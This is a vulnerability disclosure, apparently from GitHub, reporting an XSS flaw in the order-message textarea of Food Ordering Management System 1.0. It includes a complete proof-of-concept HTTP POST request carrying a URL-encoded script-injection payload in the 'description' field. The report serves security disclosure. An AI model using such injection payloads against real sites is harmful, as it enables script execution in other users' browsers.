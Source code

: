 ##The Food order management system has a reflective XSS vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/index.php

## Description:
Food Ordering Management 1.0 is vulnerable to a reflected XSS vulnerability caused by the lack of filtering of input content in the textarea tab in /foms/index.php. A malicious attacker can exploit this vulnerability to generate a link containing malicious code to lure the victim into clicking on it.

Status: Low risk

POC
```
POST /foms/place-order.php HTTP/1.1
Host: localhost:8088
Content-Length: 117
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8088/foms/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hlodrr0cq84ndg4raumb7hpcla
Connection: close

1=0&2=0&3=1&description=%22%3E+%3Cscript%3Ealert%28%2FThis+page+has+an+XSS+vulnerability%2F%29%3C%2Fscript%3E&action=
```


1、When an ordinary user generates an order, there is a message function
![efcc489b53a233bf1ee960ef1cb34eb](https://github.com/user-attachments/assets/30c3b4ac-ad04-4743-befb-a6231cb8e727)

![faf316603c599ac61addc544e489ff2](https://github.com/user-attachments/assets/2682e3ad-ad06-4248-8c32-818d9b04be08)


2、The input is not filtered in the "textarea" tab
![53ee009d56d7dfec4331519f305a858](https://github.com/user-attachments/assets/ddaed49f-e10d-41dd-8127-03e434a2812f)






